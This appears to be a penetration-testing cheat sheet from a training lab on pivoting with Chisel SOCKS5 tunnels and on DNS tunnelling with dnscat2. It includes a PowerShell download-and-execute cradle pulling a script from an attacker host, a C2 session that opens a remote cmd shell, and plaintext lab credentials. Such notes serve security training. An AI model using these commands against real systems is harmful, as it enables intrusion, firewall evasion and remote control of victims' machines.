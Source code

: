 # Tunneling Servers

## Chisel - SOCKS5

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. `Chisel` can create a client-server tunnel connection in a firewall restricted environment.

Used to create an inter-work tunnel on compromised host.

```bash
# Install from apt or build from source (apt is smaller)
sudo apt install chisel

# Fire it over
scp /usr/bin/chisel ubuntu@10.129.202.64:~/
```

On pivot host:

```bash
./chisel server -v -p 1234 --socks5
```

Connecting with attack host:

```bash
./chisel client -v 10.129.202.64:1234 socks

# Proxy it
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

### Chisel Reverse Pivot

Use reverse in case of firewall restrictions.

From attack box:

```bash
sudo ./chisel server --reverse -v -p 1234 --socks5
```

On pivot host

```bash
./chisel client -v 10.10.14.17:1234 R:socks
```

---

## Dnscat2 - DNS

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol. 

### Install

```bash
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

### Run and note secret key

```bash
# Run the server
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

-- SNIP --
Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=06050401beb8635b47f7af6298dee503 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=06050401beb8635b47f7af6298dee503
-- SNIP --
```

### Execute [dnscat2.ps1](git clone https://github.com/lukebaggett/dnscat2-powershell.git) to host.

```powershell
IWR -Uri http://10.10.15.111/dnscat2.ps1 -OutFile C:\temp\dns.ps1
Import-Module .\dns.ps1

# Or
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.15.111/dnscat2.ps1')

# Start
Start-Dnscat2 -DNSserver 10.10.15.111 -Domain inlanefreight.local -PreSharedSecret 06050401beb8635b47f7af6298dee503 -Exec cmd 
```

### Back to Cat

```bash
dnscat2> New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

# Drop into a shell
dnscat2> window -i 1

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```



